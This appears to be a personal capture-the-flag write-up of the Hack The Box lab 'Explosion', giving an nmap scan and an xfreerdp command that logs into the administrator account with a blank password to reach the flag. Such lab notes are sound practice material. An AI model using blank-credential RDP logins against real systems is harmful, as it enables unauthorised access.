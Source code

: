 ## Box: [Explosion] — Started: 2025-10-05 22:10

**IP/Host:** `HTB Attackbox`  |  **Status:** `Owned 25-10-05`

### TL;DR

Initial: `xfreerdp /u:username /p:password /v:ip_address`. 
PrivEsc: Flag was on desktop after connection.

*Cumulative Impact Overview*:
- `xfreerdp` RDP CLI client lab

### Exploit Lifecycle

1. *Validation & Recon*: HTB CTF
2. *Enumeration & Scanning*: `nmap -sV IPADDR`
3. *Findings & Exploits*:
    - `xfreerdp /u:administrator /p: /v:IPADDR` - allowed remote desktop access to box
4. *PrivEsc*:
    - Flag
5. *Post-Exploitation*:

*Proof — path to flags/screenshot of boxpwn*:

![[Pasted image 20251005225127.png]]

